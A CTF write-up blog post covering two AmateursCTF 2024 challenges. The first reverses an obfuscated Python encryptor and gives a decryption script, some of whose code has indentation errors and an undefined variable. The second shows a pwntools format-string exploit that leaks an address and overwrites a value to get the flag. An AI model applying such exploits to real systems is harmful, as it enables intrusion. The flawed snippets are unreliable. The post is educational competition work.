 ```yaml
---
title: "AmateursCTF_2024 Writeups"
date: 2024-04-12T12:01:23+07:00
draft: false
lightgallery: true

tags: ["rev"]
categories: ["reverse"]

math:
  enable: true
toc:
  enable: true
---
```


Writeup for rev challenges in the event.

<!--more-->
## Overview
First time writing writeup hehe.

## typo
{{< admonition note "Challenge Information" >}}
* **Given file:** `mian.py`, `output.txt`
* **Description:** can you make sure i didn't make a typo?
{{< /admonition >}}

We are given a Python source with many obfuscated names, but upon closer inspection we notice that they are all simple encryption method that can be easily decrypted.

After renaming the variables a bit we got:

```Python
import random as RrRrRrrrRrRRrrRRrRRrrRr
seed = int('1665663c', 20)
RrRrRrrrRrRRrrRRrRRrrRr.seed(seed)
flag = bytearray(open('flag.txt', 'rb').read())
key_str = '\r'r'\r''r''\\r'r'\\r\r'r'r''r''\\r'r'r\r'r'r\\r''r'r'r''r''\\r'r'\\r\r'r'r''r''\\r'r'rr\r''\r''r''r\\'r'\r''\r''r\\\r'r'r\r''\rr'
key_array = [
    b'arRRrrRRrRRrRRrRr',
    b'aRrRrrRRrRr',
    b'arRRrrRRrRRrRr',
    b'arRRrRrRRrRr',
    b'arRRrRRrRrrRRrRR'
    b'arRRrrRRrRRRrRRrRr',
    b'arRRrrRRrRRRrRr',
    b'arRRrrRRrRRRrRr'
    b'arRrRrRrRRRrrRrrrR',
]
func_plusone = lambda param: bytearray([ele + 1 for ele in param])
func_minusone = lambda param: bytearray([ele - 1 for ele in param])

def func_swap(hex):
    for id in range(0, len(hex) - 1, 2):
        hex[id], hex[id + 1] = hex[id + 1], hex[id]
    for list in range(1, len(hex) - 1, 2):
        hex[list], hex[list + 1] = hex[list + 1], hex[list]
return hex

func_list = [func_swap, func_plusone, func_minusone]
func_list = [RrRrRrrrRrRRrrRRrRRrrRr.choice(func_list) for arRrrrRRrRRrRRRrRrRrrRr in range(128)]

def execute_func(arr, ar):
    for r in ar:
        arr = func_list[r](arr)
return arr

def func_add(arr, ar):
    ar = int(ar.hex(), 17)
    for r in arr:
        ar += int(r, 35)
return bytes.fromhex(hex(ar)[2:])

ciphertext = execute_func(flag, key_str.encode())
ciphertext = func_add(key_array, ciphertext)
print(ciphertext.hex())
```

We are also provided with the cipher text from the output.txt
ciphertext = `5915f8ba06db0a50aa2f3eee4baef82e70be1a9ac80cb59e5b9cb15a15a7f7246604a5e456ad5324167411480f893f97e3`

From the bottom up, we first subtract the cipher text with the keyarray base 35, we get the new ciphertext = `3510160288463215651882012568783508204641122149206037501475580951860016882936528922912211607208113004344284877774206570`

But here is the catch, notice that the ciphertext now is the result of integer base 17 conversion, so we need to revert it back to a base 17 bytearray, this is not complicated, but sure is very troublesome, luckily we can threw it in an online decoder so that we can get result instead of decode it manually (a good online decoder can be found here: [CyberChef](https://gchq.github.io/CyberChef/) ).

<img src="typo_1.png" alt="" width="1000"/>

And the rest can be decrypt fairly easily.

```Python
def rev_func_swap(hex):
    for id in range(1, len(hex) - 1, 2):
        hex[id], hex[id + 1] = hex[id + 1], hex[id]
    for list in range(0, len(hex) - 1, 2):
        hex[list], hex[list + 1] = hex[list + 1], hex[list]
    return hex

rev_func_list = [rev_func_swap, func_minusone, func_plusone]
rev_func_list = [RrRrRrrrRrRRrrRRrRRrrRr.choice(rev_func_list) for arRrrrRRrRRrRRRrRrRrrRr in range(128)]

def execute_func(arr, ar):
    for r in ar:
        arr = rev_func_list[r](arr)
    return arr
cipher_text = 0x486f67686960685561685568552559536660375b3a5d28625353275d676753595c6029275a712858536067602b646167
cipher_text = bytes.fromhex(hex(cipher_text)[2:])
cipher_text = bytearray(cipher_text)
print(cipher_text)
index_array = [i for i in index_array.encode()]
index_array.reverse()
flag = execute_func(cipher_text, index_array)
print(flag)
```

**amateursCTF{4t_l3ast_th15_fl4g_isn7_misspelll3d}**

## bearsay

Trying some pwn.

```Python
from pwn import *

elf = context.binary = ELF('./chall')
p = process()
p = remote('chal.amt.rs', 1338)
# gdb.attach(p, gdbscript='b*main', api=True) 

p.sendlineafter(b'say: ', b'%15$p')
p.recvline()

bss_is_mother = int(p.recvline().split()[1], 16) + 0x29cc
val = 0xBAD0BAD
payload = fmtstr_payload(22, {bss_is_mother: val}, write_size='int')
p.recvuntil(b'say: ')
print(len(payload))
print(payload)
assert len(payload) < 4096
p.sendline(payload)

p.recvuntil(b'say: ')
p.sendline( b'flag')
p.interactive()
```

**amateursCTF{bearsay_mooooooooooooooooooo?}**